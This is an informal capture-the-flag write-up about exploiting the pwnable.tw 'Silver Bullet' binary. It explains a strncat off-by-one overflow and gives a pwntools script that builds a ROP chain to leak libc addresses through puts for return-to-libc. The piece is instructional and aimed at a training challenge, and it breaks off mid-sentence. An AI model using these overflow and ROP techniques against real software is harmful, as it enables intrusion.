


# Pwnable TW - Silver Bullet

## Description

Please kill the werewolf with silver bullet!

`nc chall.pwnable.tw 10103`

# ACT_0x01: What Do?

Alright! So to start off our challenge, let's just do the classic holy combo of `file`, [`checksec`](https://docs.pwntools.com/en/dev/commandline.html#pwn-checksec), and also just running the damn thing. Oh, and a little tool I came across called [`cwe_checker`](https://github.com/fkie-cad/cwe_checker), it's a PITA to install, but super cool when it works! Also, I can't run the damn thing, so I'll also be using [`pwninit`](https://github.com/io12/pwninit) to set up my exploit environment and auto patch the binary. Saves so much time.

## file:

```shell
$> file silver_bullet

silver_bullet: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2
.6.32, BuildID[sha1]=8c95d92edf8bf47b6c9c450e882b7142bf656a92, not stripped
```

The actually useful parts of this are the `not stripped`, the `32-bit` part. Also whether or not it's dynamically or statically linked.

So far we have an unstripped 32-bit executable. Only reason I care about the 32-bit part is in case we come across a vuln that requires brute-forcing an address. 64-bit makes the brute-force process take longer than the heat death of the universe so best to avoid that.

## checksec:

```shell
$> checksec silver_bullet
[*] '/home/exiled/Desktop/ctf/pwnable_tw/silvery_2/silver_bullet'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
```

Full RELRO, but no canary, PIE/ASLR, and we get symbols. Wack.

Quick recap on what full RELRO is, it just relocates the GOT section and also makes it read-only. Proof in case you don't [believe me](https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro).

The important excerpts are as follows:

> Firstly, PLT needs to be located at a fixed offset from the .text section. Secondly, since GOT contains data used by different parts of the program directly, it needs to be allocated at a known static address in memory. Lastly, and more importantly, because the GOT is lazily bound it needs to be writable. -SNIP-

Basically Full RELRO makes overwriting this GOT impossible, free/malloc hook overwrites, ROP, and most other attacks are all still on the table :3.

## Running it:

```sh
$> ./silver_bullet
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :
```

All hail our lord and savior, menu chall! Anyways, we'll figure out what the menus do in a sec. Oh, btw I'm using `pwninit` to actually be able to run this binary, because I'm too lazy to actually learn to use a docker pwn environment.

## CWE Checker

Aight, this one doesn't always work so ¯\\\_(ツ)\_\/¯

```c
>$ cwe_checker silver_bullet

[CWE676] (0.1) (Use of Potentially Dangerous Function) create_bullet (08048840) -> strlen
[CWE676] (0.1) (Use of Potentially Dangerous Function) power_up (08048889) -> memset
[CWE676] (0.1) (Use of Potentially Dangerous Function) power_up (080488fb) -> strncat
[CWE676] (0.1) (Use of Potentially Dangerous Function) power_up (08048907) -> strlen
[CWE676] (0.1) (Use of Potentially Dangerous Function) main (0804896e) -> memset
```

Oh sick it actually did something. Okay so I'll start off by mainly looking at the `power_up` and `create_bullet` functions. Mainly due to the fact that simply touching a string in C is practically undefined behavior xd. What specifically catches my eye here is the `strncat` call, since why tf would you use `strncat` over just `snprintf`. Also, string manipulation in C is pretty shit, and people always suck at remembering the null byte, or they miscalculate the length, mess up their buffer, etc. The list goes on.

Tbh I forgot what `strncat` does anyways so lets pull up the man pages to refresh our mind palaces.

## Boring but useful reading...

```c
$> man strncat

Blah blah, synopsis, blah blah description, blah blah examples


Synopsis

char *strncat(char *restrict dst, const char src[restrict .ssize], size_t ssize);

Return value

strncat returns dst

..snip..
```

And description (cut for usefulness):

Blah blah, function appends bytes from the array pointed to by src, followed by a null character, **to the end of the string pointed to by dst**. dst must point to a string contained in a buffer that is large enough, that is, **the buffer size must be at least strlen(dst) + strnlen(src, ssize) + 1**.

Oh, no wonder people screw the function up, tf is this buffer length requirement... wdym the buffer size must be at least `strlen(dst) + strnlen(src, ssize) + 1`.

So you gotta make sure that the `strlen != ssize` otherwise the null byte overwrites `dst` by one... bruh. Anyways, lets run the rest of the program then finally load it into your preferred decompiler.

Nah I'm not done clowning on this, what even is this example.


## The last part of recon I swear.

Okay, finally lets just see the last menus.

### Menu 1: Make it

```c
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :1
Give me your description of bullet :rawrxd
Your power is : 6
Good luck !!
```

Aight, so place for user input and the "power" is the length of our input.

### Menu 2: UNLIMITED POWERRRR

```c
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :2
Give me your another description of bullet :uwu
Your new power is : 9
Enjoy it !
```

Aight, so the second menu adds N, N+1 input lengths together (confirmed b/c I added "booga" and got a power of 14).

### Menu 3: Beat it

```sh
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :3
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Sorry ... It still alive !!
Give me more power !!
```

Aight, does some random stuff and the "werewolf" has INT_MAX health.

That's a thicc boi.

Aight, lets load up binja.

# ACT_0x02: REEEV YOUR ENGIIIINES

## Main


Yes, I do use the Rust IL in Binja, why? Because it's nice. Actual reason is because of explicit mut/non mut, easy differentiation of signed vs unsigned datatypes and return types, loop being better than BS while loops, match ergonomics, etc.

Aight, we got main here, the `init_proc` function is just classic [CTF buffering setup](https://www.reddit.com/r/ExploitDev/comments/in5mpl/setvbufsetbuf_calls/), so we don't care. The rest is just a classic menu challenge, nothing interesting yet.

Only thing we see is that `var_40` variable that gets passed into `beat`. Currently the functions we care about in order are: `create_bullet`, `power_up`, `beat`

## Gimme Some Silver


Pretty standard, only interesting part is that we're dereferencing a pointer to check if it's null. So we're probably dealing with some kind of struct, and something inside it is `0x30` bytes. Then we're initializing some integer field in that struct to the number of characters we pass as our input.

The `read_input` function is about as standard as it comes too, it goes character by character, looks for a newline, and null terminates our string.

_boring_- let's move on.


## Power Up


Hmm, aight so from the top, the parts I immediately see that look interesting are:

- Yeaaah, `arg1` is definitely a struct, of at least size `0x30`. Binja makes auto structs but for the Ghidra and (surprisingly) Ida users I'll set up what I think the struct is in a sec.
- We have to create the bullet first before powering up
- After making a bullet with random user input we can use `power_up` to add another description, from there we use the `read_input` func into that `var_38` buffer based off the remaining power of our `arg1` struct.
- ❗ Ayo, now we `strncat` into that `var_38` buffer where the size is based off our remaining power.

  - What makes this fishy is that we control the bytes given into `arg1` when we first create the object...

Okay lets rename some stuff and make the struct for the powered up thingie.

### Upgrades People, Upgrades

First let's take care of the struct definition, based off the null check on `if *(arg1 ..) == 0`, and since the creation of a bullet requires us to give a bullet description, I'm gonna go out on a limb and say that `arg1->offset(0)` is the beginning of our description `bullet_buf`. And since we read `0x30` bytes into our bullet description, let's just assume that's the size.

Last part is `arg1->offset(0x30)`, this part's checked to make sure that it's below 48 (0x30 in hex), and considering the `puts` string talking about increasing power, we'll just go ahead and assume that it's just an int. So altogether we got:

```c
struct bullet {
    char[0x30] bullet_buf;
    int power;
}
```


Much better 😌.

### Strncat? More like, uhhh...

Aight, so to recap:

- We control the initial bullet power and buffer contents.
- ❗ Strncat absolutely sucks because you gotta make sure that the `strlen(str) != size_n`, otherwise you get rekt by the null byte that `strncat` writes at the end. Or, for the rustaceans, `bullet.byte_offset(0x30) + 1 = 0x0`.
- As long as we don't crash the program, if we somehow get rid of the null byte at the end of our bullet buffer, we'll probably get a massive power, since `strlen` keeps going until it bumps into a terminating null byte.
- The bullet power gets set again after our string tomfoolery.

Anyways, let's take a closer look at this line again since I'm almost 90% sure this is the initial vuln.

`strncat(bullet, &buf, 0x30 - bullet->power);`

So if our bullet creation input is `rawrxd`, the `bullet->power` is 6, after that we have an `ssize` of `0x30 - 6 = 0x2a`.

Upon entering the `power_up` function, that strncat will basically be

`strncat(bullet_buf, &user_input, 0x2a)`

Oh, btw, remember that null byte? Yeah keep in mind that whatever we pass in will basically end up being `size + 1`.

### A VULN?

So you might ask, what happens if we all but fill up the buffer on creation with `0x30 - 1` bytes? _Just_ enough to not trigger the "NO MORE INPUT" part of the code, then `power_up`?

Well, me personally? I smell a **one byte overwrite** 😎.

How does this help us though? It's not like we're working with the heap, and it's not like we're anywhere near the return address, hows one measly byte help us?

Well, remember that random observation we made analyzing `power_up`?

> As long as we don't crash the program, if we somehow get rid of the null byte at the end of our bullet buffer due to the fact that the power will write into the place where the null terminator is supposed to be, so we'll probably get a massive power, since `strlen` keeps going until it bumps into a currently non-existent null byte.

Well it's time to put our money where our mouth is and try it out.

# ACT_0x03: You only get ONE byte of my sandwich.

Sick, now that our reversing is done, let's try out our hunches. I don't know how many A's is 47 so it's your turn `iPython`.

```python
$> ipython3

In [1]: "A"*(0x30-1)
Out[1]: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
```

Yoink. Run it DJ.

```sh
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :1
Give me your description of bullet :AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Your power is : 47
Good luck !!
```

The following inputs were weird O.o

```sh
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :2
Give me your another description of bullet :A
Your new power is : 1
Enjoy it !

+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :Invalid choice

+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :
```

**AYO WE WERE RIGHT!!** And the "Invalid choice" is absolutely coming from the null byte or some weird thing, idrc though. BUT SICK! Hold up though, our power's one? Why? We should have written a 1 into the null byte at the end of the buffer (Remember, the power gets reassigned after our `strncat` call) and the new power should have gotten reassigned into whatever garbage value(s) was after our buffer.

OH WAIT, I'm dumb, I misread the code,

```rust
read_input(&buf, 0x30 - bullet->power);
strncat(bullet, &buf, 0x30 - bullet->power);
let remaining_bytes: size_t = strlen(&buf);
let new_power: i32 = bullet->power + remaining_bytes;
```

Yes, the power gets reassigned, but we're getting the `strlen` of the temporary buffer, not our bullet buffer. The temp buffer get's written to by the `read_input` call **_before_** the `strncat` jank-ness. So the temporary buffer actually does have 1 byte from our first `power_up` call.

Howeeeever... Once we leave and re-call `power_up`, our buffer concats our ridiculous garbage values and that definitely gives us enough power to take out the werewolf.

## Boss Fight

Continuing from the above state.

```
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :2
Give me your another description of bullet :BBBBBBBBCCCCCCCC
Your new power is : 1111638545
Enjoy it !
```

Now would you LOOK at that, we were right! And not only that, our hunch was pretty spot on, although I have no clue exactly how the power value gets calculated. To figure that out I'd have to `gdb` into the program and so far it doesn't seem worth the effort yet. However, THEORETICALLY, we should be writing over the bullet struct and into wherever that is. I swear we'll `gdb` and figure out exactly what's happening in a bit, for now I like to imagine I'm on a time crunch for a CTF so lets keep going until we need more in depth info, for now `1111638545` is pretty dang close to `MAX_INT` size so we should be able to beat the wolf! (Oh wait I forgot to look at that function... Eh, hopefully it's not a single shot).

### Hopefully Not Foreshadowing

```
+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :3
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 2147483647
>--------------------------------<
Try to beat it .....
Sorry ... It still alive !!
Give me more power !!

+++++++++++++++++++++++++++
       Silver Bullet
+++++++++++++++++++++++++++
 1. Create a Silver Bullet
 2. Power up Silver Bullet
 3. Beat the Werewolf
 4. Return
+++++++++++++++++++++++++++
Your choice :3
>----------- Werewolf -----------<
 + NAME : Gin
 + HP : 1035845102
>--------------------------------<
Try to beat it .....
Oh ! You win !!
fish: Job 2, './silver_bullet_patched' terminated by signal SIGSEGV (Address boundary error)
```

WAIT, NOT FORESHADOWING AT ALL! Tbh I was fully prepared for another chapter where the whole goal was to find the PERFECT input to get exactly the max integer size. Praise the sun lads.

Hol up.

> fish: Job 2, './silver_bullet_patched' terminated by signal SIGSEGV (Address boundary error)

ALSO, AYO THAT'S A STACK SMASH (probably). **Time to boot up gdb to see what's going on**, and also start working on our exploit script. We should at least set up the menu manipulation portion so that when we eventually get an idea for an exploit we don't have to care about buffering and just worry about the concepts.

# ACT_0x04: Really? In Front Of My Salad?

Aight, let's lay out the goals of our debug sesh:

1. Figure out wtf is happening once we beat the werewolf.
2. Maybe see what the correlation between inputs and the third power calculation (the one that gives us the thicc values).
3. See if we have control over the return address.

With that laid out, let's beat this big bad wolf xd.

## Hack and Slash

Sweetness! So I personally use [pwninit](https://github.com/io12/pwninit) to set up my environment. Pretty much all we have to do is type `pwninit` inside the directory our challenge is in and if we're provided a libc file it'll just go and grab the relevant linker, give you libc symbols, create an exploit script for you, pay for your college, save your dog from a burning building, etc!


Okay, listen I never said it was perfect...

Ooo look, shiny exploit script over there!

### Exploit Script!

```py
#!/usr/bin/env python3
from pwn import *

exe = ELF("./silver_bullet_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")
context.binary = exe

ru = lambda *x, **y: p.recvuntil(*x, **y)
rl = lambda *x, **y: p.recvline(*x, **y)
rc = lambda *x, **y: p.recv(*x, **y)
sla = lambda *x, **y: p.sendlineafter(*x, **y)
sa = lambda *x, **y: p.sendafter(*x, **y)
sl = lambda *x, **y: p.sendline(*x, **y)
sn = lambda *x, **y: p.send(*x, **y)

if args.REMOTE:
    p = connect("addr", 1337)
elif args.GDB:
    # If there's stupid timers:
    # handle SIGALRM ignore
    gdb_script = """
    b main
    c
    """
    p = gdb.debug([exe.path], gdb_script)
else:
    p = process([exe.path]) # For swapping to pwninit.
sla(b"Your choice :", b"1") # Create
sla(b"Give me your description of bullet :",b"A"*(0x30-1))
sla(b"Your choice :", b"2") # Power up
sla(b"Give me your another description of bullet :", b"A")
sla(b"Your choice :", b"3") # Beat
# Tick 197 Certified ;)
p.interactive()
```

Don't mind all my shorthands, I'm lazy and don't want to type `p.sendlineafter` ;-;.

Essentially all we're doing is exactly what we found during reversing and playing with the binary:

1. First we create a bullet with 47 characters
2. Power that bullet up and add a single character.
3. _Try_ to beat the wolf.

I explained the reason this is a vulnerability a bit above but a super quick overview is that we're creating a buffer of 47 characters in a struct that looks like:

```c
struct bullet {
    char[48] bullet_buf;
    int power;
}
```

### Last Time on Dragon Ball

The `strlen` function only reads up to (not including) the null byte of the string which sets the `power` field to 47. Afterwards we can still use the `power_up` function again to add another character, which places a character in the 48th index of the buffer. **HOWEVER** it also places the null byte (or a 0) in the `bullet->power` field, which immediately gets replaced by the length of our length 1 bullet.

Here's the code again, with some comments. Also I'm going to use a 0 in place of a null bytes ascii value because it's easier to show that, since otherwise using `\x00` takes up 4 characters.

```c
..snip
// Before strcat bullet looks like
//                   A * 47 + null byte
// bullet->bullet_buff = [AAAAAA..AAAAAA0]
// bullet->power       = 47
strncat(bullet, &temp_desc, 0x30 - bullet->power);
// After strcat:
//                      A * 48 + null byte
// bullet->bullet_buff = [AAAAAA..AAAAAAA]0
// bullet->power       = 0----------------^
```

And here's a beautiful MSPaint drawing showing the concept for those of you on mobile :3



Immediately afterwards we have

```c
let new_len: size_t = strlen(&temp_desc);
let new_power: i32 = bullet->power + new_len;
```

Which turns that `0` into a `1`! Then afterwards the big ass number comes from the program overwriting stuff.

Okay recap over, here's a-

## Pwnnut Butter and Gef-fy Sandwich

Okay, so lets put some breakpoints at the interesting places, specifically at the `strncat` and `read_input` calls. Which also lets us see the bullet in memory both before the concat, and after.


Okay, looking good so far! We've filled up the memory just up to the end of the buffer with the null byte taking the 48th spot and not counting for our length like so:

```
0xfff16b24:     0x41414141      0x41414141      0x41414141      0x00414141
```

Lets move onto the `strcat` part.


Immediately after it we were pretty much spot on with our reasoning, the power gets overwritten like expected. Now it'll get written into with the new strlen.


Great! And now that our power is set to 1 again, let's power up and abuse strncat to write past our buffer and overwrite the return address.

Before the `strncat`:


After the `strncat`:


As we can see in our expressions tab, we've overwritten way past our buffer (Also during this time I updated my layout view a lot so now you get binary ninja decompilation on the right of the disassembly! :3).

Also here's where we get the big number for the power, turns out it was just subtracting one from a bunch of A's lol.


And now for the fun part, here's where we overwrite the base pointer of the stack (EBP)! Basically what this means for us is the next time we return without adding something else to the stack base pointer we'll be able to overwrite the return pointer, the main way we can do that just so happens to be by beating the wolf, then the program completes and we should be ready for the last stretch!


We've already shown that we can beat the wolf so lets skip to the aftermath.


And just like that, **we're in**


Well not exactly, we overwrote this part of the program so what now? The program has the `NX` bit enabled so we can't just write shellcode and run it. Well, that's where `ROP` comes in!!

# ACT_0x05: Hand Me My ROP, I'm Going In!

Basically `ROP` is the process of abusing the fact that every single program in the world has assembly instructions that **HAVE** to be able to execute, otherwise you're just left with a really expensive electric rock with a bitten apple on the back. We're going to take advantage of that and basically make a program using the little instructions that exist within. Pretty much program-ception.

Now, I already checked and sadly we can't just call `execve("//bin/sh", 0, 0)`, although the funny part is that we're _just_ missing the `int 0x80` call lol. Here you can see in my `iPython` window, btw fun tip, you can actually set up a mini pwn script in `iPython` to play around with things like making a chain of `ROP` instructions without having to run the program to test your theories every time.

```py
In [34]: r = ROP(exe)
In [35]: r.execve("//bin/sh", 0, 0)
[ERROR] Could not find any instructions in ['int 0x80']

PwnlibException: Could not find any instructions in ['int 0x80']
```

Like fr, call me inspector gadget:


So now we go to plan B:

## Return to Monke- I mean Libc

So in order for this plan to work, if the random assembly gadgets found in the program won't work, the ones in the programs libc definitely will! The only downside is getting there :(

In order for us to just hop around, we have to print out an address related to libc. Luckily we happen to have a very pretty table of libc addresses in the `PLT` and `GOT`.

### The what?

The `GOT` or Global Offset Table is a big table of just straight up addresses that're passed to the program every time it starts by the linker (not when it was created). And it literally looks like this:


A straight up table of addresses that exist within the program straight into libc.

One little thing about libc is that, as a library, it has its addresss space layout randomized every time the program runs. However, we can take advantage of the fact that the randomized value doesn't actually move/randomize everything, that'd be a nightmare for a fast program. Instead, a random value gets added to the beginning of the program as padding and moves the entire program around every time it starts up, essentially preventing us from calling functions like `execve`. This isn't a perfect protection though because we can just jump around, but it has to be **relative** to something.

Pretty MSPaint incoming:


So what this means is that we just need to print out something like `foo` and we'll have the ability to jump anywhere again because we'll be hopping around relative to the location of `foo`. To do this, we'll just take advantage of the

### Procedure Linkage Table :3

So if the `GOT` was a straight up table of just addresses, how are those addresses called? Enter the PLT!

This little linkage table is in charge of grabbing addresses from the `GOT`, and actually having the instructions to jump into that address in a shared library (like libc).

And here's what that looks like:


The PLT calls the actual functions that are referenced in the GOT. They work in harmony to give a program stuff it can use.

One small thing though, it doesn't really care what calls it at all, and it's located within an area in memory that isn't randomized (b/c of no ASLR/PIE in the binary), so we can ALSO randomly call one of those functions by simply jumping into the PLT!

## Jump you say?

Great! So all we have to do is call the PLT implementation of `puts` and pass it the arguments it expects, which is just an address, then it's game over!

Lets go over the additional parts of the exploit script:

```py
offset = 0x30
puts_plt = exe.plt['puts']
puts_got = exe.got['puts']
payload = b"B" * offset
sla(b"Give me your another description of bullet :", payload) # Overwrite stuff
sla(b"Your choice :", b"3") # Beat
sla(b"Your choice :", b"3") # Beat
```

So this gets us the addresses of the `PLT` and `GOT` parts of `puts`, we're going to essentially be taking these and setting up the program in such a way that we can execute

```py
puts_plt(puts_got)
```

Which just means taking the `puts`, loading the address of `puts_got` into the `EDI` register, then calliing `puts_plt`! From here I just need to get the exact offset for our overwrite, so I'm going to use a [`cyclic`](https://docs.pwntools.com/en/dev/util/cyclic.html#pwnlib.util.cyclic.cyclic) string to get the offset like so:

```sh
$≻ pwn cyclic 48
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa
```

Pass it into the program, which will crash like so:



And we can take that and look up the exact offset it takes to overwrite the return address with `cyclic -l 0x61616361`, giving us an offset of `7`. So let's set our `offset` in the pwn script to `7`, then we can make our little things! I'm going to use my iPython window to experiment with everything instead of doing the ROP manually, which I'd only have to do with really weird gadgets.

```py
In [13]: r.puts(exe.got['puts'])

In [14]: r.chain()
Out[14]: b'\xa8\x84\x04\x08baaa\xdc\xaf\x04\x08'

In [15]: print(r.dump())
0x0000:        0x80484a8 puts(0x804afdc)
0x0004:          b'baaa' <return address>
0x0008:        0x804afdc got.puts
```

Perfect! Our automated chain found the gadgets necessary to place the address of `puts_got` into our `puts_plt` call, and it popped out a nice little chain that we can use in our script like so:

```py
offset = 7
puts_plt = exe.plt['puts']
puts_got = exe.got['puts']

r.puts(exe.got['puts'])
payload = flat(
    b"B"*offset,
    r.chain(), # Calls puts with the got puts address.
    p64(exe.sym.main), # Lastly, calls main
)

sla(b"Give me your another description of bullet :", payload) # Overwrite stuff
```

So here I'm just using a thing called flat, which turns everything into a payload that we can then send to the program. So now we should hop back into main

# Useless Stuff

Incoming: Me losing my mind because the history books are wrong. Plz skip this section if you don't care about the history of the introduction of ASLR because I spent a full day searching and going crazy.

So... _small_ ass aside, trying to google for when ASLR was introduced into the Linux kernel is ridiculous. The only mention I ever found references a Linux team called PaX that **_supposedly_** added a patch for address space layout randomization. However the ONLY thing I could find was this Linux mailing list thread made by Arjan van de Ven in **2005** [which is here](https://lore.kernel.org/lkml/20050127101117.GA9760@infradead.org/).

However, I wasn't satisfied because in that exact same email, it was mentioned that the 64Kb randomization was to replace _existing_ randomization that was there from something else. This search led me to the [PaX site](https://web.archive.org/web/20010516021740/http://pageexec.virtualave.net:80/), which in 2001 has various mentions of patches, but looking through them they seemed to just be the foundations for [Non Executable](https://web.archive.org/web/20010605174913/http://pageexec.virtualave.net/pax-linux-2.4.2.patch) (NX) bits.

The ONLY thing I ever found was a linux patch which was [ADDED in 2002](https://web.archive.org/web/20030212084923/http://pageexec.virtualave.net/pax-linux-2.4.20.patch). And this is backed up by a [Phrack magazine](https://phrack.org/issues/59/9) article on this which was released in 2002 about how to bypass ASLR protection that ALSO mentioned that a **_COUPLE_** months prior the PaX team had released a thing called `et_dyn.zip` (can't find its existance at all fml), and **AFTERWARDS** released a patch introducing it into the kernel. Anyways Google's wrong, I can breathe now.

Procedure Linkage Table, is a big
